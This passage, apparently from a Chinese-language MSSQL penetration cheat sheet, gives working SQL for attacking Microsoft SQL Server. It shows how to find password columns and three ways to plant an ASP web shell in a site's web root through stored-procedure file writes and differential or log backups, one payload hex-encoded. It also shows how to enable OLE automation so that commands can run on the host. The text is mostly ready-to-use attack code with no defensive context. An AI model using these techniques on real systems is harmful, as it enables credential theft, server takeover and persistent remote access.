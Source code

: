 ### xx 库中所有字段名带 pass|pwd 的表

```sql
select [name] from [xx].[dbo].sysobjects where id in(select id from [xx].[dbo].syscolumns Where name like '%pass%' or name like '%pwd%')
```



## GetWebShell

### 存储过程写文件

#### 利用条件

- 拥有DBA权限
- 知道的网站绝对路径

```mysql
declare @o int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'createtextfile', @f out, 'C:\xxxx\www\test.asp', 1
exec @ret = sp_oamethod @f, 'writeline', NULL,'<%execute(request("a"))%>'
```

### 差异备份GetShell
```sql
backup database web to disk = 'c:\www\index.bak'
create table test(cmd image)
insert into test(cmd) values (0x3C25657865637574652872657175657374282261222929253E)
backup database web to disk = 'c:\www\index.asp' with DIFFERENTIAL,FORMAT
```
### 日志备份GetShell
```sql
alter database web set RECOVERY FULL
create table cmd (a image)
backup database web to disk = 'c:\\www\a.sql'
backup log web to disk = 'c:\www\index1.sql' with init
insert into cmd(a) values('<%execute(request("go"))%>')
backup log web to disk = 'c:\www\shell.asp'
```

# 进阶利用

## xp_dirtree
xp_dirtree有三个参数，
要列的目录
是否要列出子目录下的所有文件和文件夹，默认为0，如果不需要设置为1
是否需要列出文件，默认为不列，如果需要列文件设置为1

```sql
xp_dirtree 'c:\', 1, 1      #列出当前目录下所有的文件和文件夹
```
## sp_oacreate
sp_oacreate系统存储过程可以用于对文件删除、复制、移动等操作，还可以配合sp_oamethod系统存储过程调用系统wscript.shell来执行系统命令。sp_oacreate和sp_oamethod两个过程分别用来创建和执行脚本语言。
```sql
#判断sp_oacreate状态
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'
#开启sp_oacreate  
exec sp_configure 'show advanced options', 1;RECONFIGURE
exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE
```